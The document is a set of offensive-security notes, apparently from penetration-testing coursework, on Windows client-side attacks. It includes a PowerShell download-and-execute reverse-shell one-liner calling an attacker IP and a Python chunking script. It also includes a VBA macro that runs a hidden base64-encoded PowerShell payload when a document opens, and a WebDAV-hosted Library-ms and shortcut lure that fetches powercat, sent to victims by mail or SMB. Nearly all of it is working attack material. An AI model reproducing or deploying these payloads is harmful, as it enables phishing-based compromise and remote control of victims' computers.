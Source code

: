 # Exploiting with VBA Macros

We'll employ a PowerShell command to download PowerCat and execute the reverse shell.

> [!CAUTION]
> UTF-16LE is the default character set for base64 encoding that PowerShell supports. If we choose any other character set, our payload won’t work.
> 
> Adding extra space after the ; character can also ruin the payload.

```
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
```

We can use the following Python script to split the base64-encoded string into smaller chunks of 50 characters and concatenate them into the _Str_ variable.

```python
str = "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

Having split the base64-encoded string into smaller chunks, we can update our macro:

```VBA
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```

# Exploiting with WebDav Mount
With Windows libraries we can craft client-side attacks on Windows. We can serve this configuration for a WebDav mount on the victim's computer. First we start or WebDav listener in the Kali machine with

```shell
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root .
```

We can craft the following `config.Library-ms` file.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://<ATTACKER-IP></url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

Then we can upload to the WebDAV a malicious **Windows Shortcut** file (lnk file) that points to the attacker malicious ip that servers a malicious exe for a reverseshell, like [powercat](https://github.com/besimorhino/powercat). In this section, a simple reverse shell won't work, but we have to use some webserver (like python webserver) with the executable available. Something like that could work for Windows 10/11

```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKER-IP:WEBPORT/powercat.ps1');
powercat -c ATTACKER-IP-NETCAT -p NETCAT-PORT -e powershell"
```

We copy inside the WebDAV the the link of the powershell command previously created and also the **config-Library.ms** file that we will send to the victim as the payload (via MAIL, SMB, etc...).

with our netcat listener on the attacker side.

```shell
nc -lvp NETCAT-PORT
```
